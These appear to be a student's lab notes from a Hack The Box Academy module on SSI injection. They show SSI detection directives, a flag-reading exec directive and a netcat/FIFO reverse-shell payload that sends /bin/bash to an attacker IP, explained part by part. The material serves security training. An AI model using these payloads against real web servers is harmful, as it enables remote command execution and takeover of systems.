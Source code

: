 ## SSI Injection Exploitation Example

Let us practice SSI Injection against an internet-facing web application (the target can be spawned at the end of this section). Navigate to the end of this section and click on `Click here to spawn the target system`, then use the provided Pwnbox or a local VM to follow along. By browsing to the spawned target, we come across the below.

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI_1.png)

Let us focus on identifying an SSI Injection vulnerability by submitting some of the SSI directives mentioned in the previous section.

Code: html

```html
1. <!--#echo var="DATE_LOCAL" --> 2. <!--#printenv -->
```

#### Date

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI_1.5.png)

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI_2.png)

#### All Variables

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI_3.png)

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI_4.png)

As we can see, the application is indeed vulnerable to SSI Injection! Now, proceed to the exercise at the end of this section and leverage any SSI directives listed in the previous section that can result in command execution against the underlying system to complete it.

**Note:** As we saw, running OS commands via SSI on the target application is possible, but who doesn't love shells? Have in mind the following reverse shell payload that will work even against OpenBSD-netcat that doesn't include the execute functionality by default. Also note that you won't be able to obtain a reverse shell in this section's exercise, due to network restrictions!

#### Reverse Shell

Code: html

```html
<!--#exec cmd="mkfifo /tmp/foo;nc 10.10.14.3 4444 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->
```

-   `mkfifo /tmp/foo`: Create a FIFO special file in `/tmp/foo`
-   `nc <IP> <PORT> 0</tmp/foo`: Connect to the pentester machine and redirect the standard input descriptor
-   `| bin/bash 1>/tmp/foo`: Execute `/bin/bash` redirecting the standard output descriptor to `/tmp/foo`
-   `rm /tmp/foo`: Cleanup the FIFO file

# Assessment

```html
<!--#echo var="ls -la" -->
```

![[Pasted image 20231219102504.png]]

```shell
<!--#exec cmd="cat .htaccess.flag"-->
```

![[Pasted image 20231219102528.png]]